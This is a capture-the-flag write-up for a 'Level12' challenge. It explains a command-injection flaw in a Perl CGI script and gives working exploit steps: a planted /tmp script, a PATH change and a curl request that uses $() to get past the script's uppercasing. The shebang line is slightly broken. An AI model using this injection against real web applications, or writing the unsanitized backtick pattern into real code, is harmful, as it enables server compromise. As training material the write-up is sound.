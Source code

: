 
# Level12 Exploitation - Code Injection Vulnerability

## Description
The web application for Level12 has a CGI script that takes user input through the `x` and `y` parameters. The script processes these inputs and uses the `egrep` command to search a file (`/tmp/xd`). The vulnerability arises from how user input is directly passed into the `egrep` command without sanitization.

## Vulnerable Code Explanation
Here is the relevant section of the vulnerable CGI script with comments explaining the functionality:

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param}; 
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];  # Get argument 1 (param "y").
  $xx = $_[0];  # Get argument 0 (param "x").
  $xx =~ tr/a-z/A-Z/;  # Convert all characters in param "x" to uppercase.
  $xx =~ s/\s.*//; # Remove all characters after the first space in param "x".
  @output = `egrep "^$xx" /tmp/xd 2>&1`; # Execute the egrep command.
  foreach $line (@output) { # Loop over the output of egrep.
      ($f, $s) = split(/:/, $line); # Split each line into two parts.
      if($s =~ $nn) { # If the second part contains param "y", return true.
          return 1; 
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) { # If the result of function `t` is true.
      print(".."); 
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y"))); # Call the function `t` with parameters from the web form.
```

## Vulnerability
The vulnerability exists in the following line:
```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```
Here, the `$xx` parameter is directly inserted into a shell command. we can inject arbitrary commands.

## Exploitation Steps
### Step 1: Understand the CGI Script Behavior
The script:
- Converts the `x` parameter to uppercase and removes characters after the first space.
- Uses the result to run an `egrep` command.
- Checks if the `y` parameter matches the second part of the output.

### Step 2: Plan the Exploit
We exploit the command injection by crafting the `x` parameter to execute arbitrary commands on the server. For example:
- Create a malicious script to execute `getflag` and redirect the output to `/tmp/flag`.
- Inject the script's path using the `x` parameter.

### Step 3: Create the Exploit Script
1. Write a malicious script to `/tmp`:
```bash
echo '#!bin/sh' > /tmp/UPPERSCRIPT
echo 'getflag > /tmp/flag' >> /tmp/UPPERSCRIPT
chmod 777 /tmp/UPPERSCRIPT
export PATH=/tmp:$PATH

```
permissions must be 777 otherways it wont execute. 
2. Use `curl` to pass the malicious input to the CGI application:
```bash
curl "http://localhost:4646?x=\$(/*/UPPERSCRIPT)&y=value"
```

### Step 4: Retrieve the Flag
The `getflag` output will be written to `/tmp/flag`. Access the file to retrieve the flag:
```bash
cat /tmp/flag
```